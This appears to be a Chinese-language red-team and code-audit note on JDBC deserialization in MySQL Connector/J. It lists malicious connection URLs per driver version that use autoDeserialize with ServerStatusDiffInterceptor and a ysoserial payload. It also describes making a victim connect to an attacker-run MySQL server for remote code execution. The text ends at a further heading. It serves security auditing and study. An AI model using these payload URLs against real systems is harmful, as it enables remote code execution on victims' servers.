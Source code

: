 #代码审计 #redteam
### JDBC
>JDBC（Java DataBase Connectivity，java数据库连接）是⼀种⽤于执⾏Sql语句的Java Api，可以为多种关系数据库提供统⼀访问，它由⼀组⽤Java语⾔编写的类和接⼝组成。是Java访问数据库的标准规范。简单理解为链接数据库、对数据库操作都需要通过jdbc来实现  

```java
jdbc:mysql://127.0.0.1:3306/db?user=root&pass=root
```


### JDBC 反序列化
>Jdbc反序列化是指在jdbc中url连接⽤户可控的前提下，进⾏反序列化的操作


### 快速审计

1. url可控
2. 引入反序列化链漏洞的依赖（cc链）
3. 被攻击者请求攻击者在vps搭建的恶意mysql服务器，然后进行rce

### ServerStatusDiffInterceptor触发
| 驱动版本                 | JDBC语句                                                                                                                                                       |     |
| -------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------ | --- |
| 6.x                  | jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc |     |
| 8.x                  | jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc     |     |
| 5.11及以上的5.x<br>版本    | jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc    |     |
| 5.1.10及以下<br>5.1.x版本 | 同上，但是需要连接后执⾏查询                                                                                                                                               |     |
| 5.0.x                | 还没有ServerStatusDiffInterceptor                                                                                                                               |     |


### detectCustomCollations触发
